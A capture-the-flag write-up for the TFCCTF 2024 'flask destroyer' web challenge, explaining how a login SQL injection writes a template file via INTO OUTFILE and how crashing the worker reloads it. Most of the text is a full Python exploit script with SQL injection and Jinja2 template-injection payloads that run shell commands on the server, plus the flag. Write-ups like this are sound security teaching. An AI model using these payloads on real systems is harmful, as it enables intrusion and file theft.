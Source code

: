 ```yaml
---
layout: post
title:  "flask destroyer - TFCCTF 2024"
date:   2024-08-03 00:00:00 -0400
---
```


{% raw %}

https://ctftime.org/event/2423

# flask-destroyer (web)

flask sqli

## Solution

There is an sqli on login, and `secure_file_priv = ""`.
So we can upload any file we want.

There is just the problem that flask hotloading is off, so we cannot load new templates.

The solution is crashing the worker so when it restarts it loads the new templates in.
The intented way to crash the worker is abusing `strtok` from libc, `asdsad:asda:` segfaults it

The full exploit then:
- upload template
- crash
- get new template

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote_plus

# REMOTE = "http://0.0.0.0:1337/"
REMOTE = "http://challs.tfcctf.com:32006/"

def create_file():
    payload = '''" UNION SELECT '{{ dict.__base__.__subclasses__()[379]("cat $(find /tmp -type f)",shell=True,stdout=-1).communicate()[0] }}', '', '' into outfile '/destroyer/app/templates/a.html'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })


def crash():
    payload = '''" UNION SELECT 'this works', 'sdsadasd', 'bla:'-- '''
    login = f'username=1&password={payload}&vibe=y'
    res = requests.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
        'http': 'http://0.0.0.0:8080',
        'https': 'https://0.0.0.0:8080'
    })

def get():
    payload = '''" OR 1=1-- '''
    login = f'username=1&password={payload}&vibe=y'
    with requests.Session() as ses:
        ses.post(REMOTE + 'login', headers={'Content-Type':'application/x-www-form-urlencoded'}, data=login, proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        res = ses.get(REMOTE + 'a.html', proxies={
            'http': 'http://0.0.0.0:8080',
            'https': 'https://0.0.0.0:8080'
        })
        print(f"DEBUGPRINT[4]: go.py:37: res.text={res.text}")

create_file()
time.sleep(2)
crash()
time.sleep(5)
get()
```

## Flag
`TFCCTF{Cr4Sh_g0_bRbRbRbRbR}`

shafouz 2024/08/03

{% endraw %}
